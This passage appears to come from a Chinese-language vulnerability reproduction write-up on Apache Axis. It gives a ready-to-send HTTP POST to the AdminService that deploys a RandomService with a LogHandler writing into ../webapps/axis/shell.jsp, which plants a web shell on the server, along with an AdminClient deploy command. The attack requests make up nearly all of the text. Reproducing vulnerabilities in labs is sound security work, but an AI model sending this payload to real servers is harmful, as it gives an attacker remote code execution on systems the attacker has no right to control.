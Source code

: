 ```
java -cp $AXISCLASSPATH org.apache.axis.client.AdminClient deploy.wsdd
```

## 漏洞复现

### RandomService 报错getshell

注册服务，指定日志目录为shell路径：

```
<parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />  
```

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 1059
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >
    <parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```
